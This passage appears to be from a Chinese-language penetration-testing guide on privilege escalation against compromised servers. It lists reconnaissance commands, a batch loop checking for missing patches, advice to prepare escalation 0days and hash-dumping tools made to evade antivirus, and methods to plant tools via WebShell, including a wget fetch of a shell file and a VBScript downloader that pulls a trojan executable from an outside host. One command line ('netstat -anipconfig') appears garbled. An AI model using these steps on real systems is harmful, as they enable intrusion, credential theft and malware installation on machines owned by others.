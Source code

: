    ```shell
   echo ####net-work information
   ipconfig/all
   route print
   arp -a
   netstat -anipconfig /displaydns
   echo
   echo ######service#########
   sc query type= service state= all
   echo #######file-##########
   cd \
   tree -F
   ```

2. 准备提权服务器的漏洞补丁情况收集

   ```shell
   systeminfo>C:\Windows\Temp\temp.txt&
   (for %i in (KB977165 KB970483)
   do @type c:\Windows\Temp\temp.txt|@find /i "%i"|| @echo %i Not Installed!)
   &del /f /q /a c:\Windows\Temp\temp.txt
   ```

3. 准备提权0day及其他相关工具

   针对当前操作系统准备32位或64位提权0day。针对当前操作系统应用程序准备提权0day。准备获取密码的Hash工具，并对0day及其相关工具进行免杀处理和测试。

4. 寻找服务器可写目录

   在目标服务器中找到一个可写目录。

### 实施提权

1. 上传或下载提权0day和相关工具

   将文件上传到服务器有多种方法，例如通过WebShell、FTP、下载命令等将工具上传到系统的可写目录下。

   - 在Linux下，通过`wget http://www.antian365.com/shell.txt` 命令下载shell.txt文件到本地服务器。

   - 使用vbs下载，代码如下：


     ```vbscript
     iLocal =LCase(WScript.Arguments(1))
     iRemote = LCase(WScript.Arguments(0))
     Set xPost = CreateObject("Microsoft.XMLHTTP")
     xPost.Open("GET", iRemote, 0)
     xPost.Send()
     Set sGet = CreateObject("ADODB.Stream")
     sGet.Mode = 3
     sGet.Type = 1
     sGet.Open()
     sGet.Write(xPost.responseBody)
     sGet.SaveToFile(iLocal, 2)
     ```
     使用命令`cscript down .vbs http://www.antian365.com/ma.exe c:/ma.exe`， 将ma.exe保存到C盘根目录下，不写路径则会显示程序执行出错。
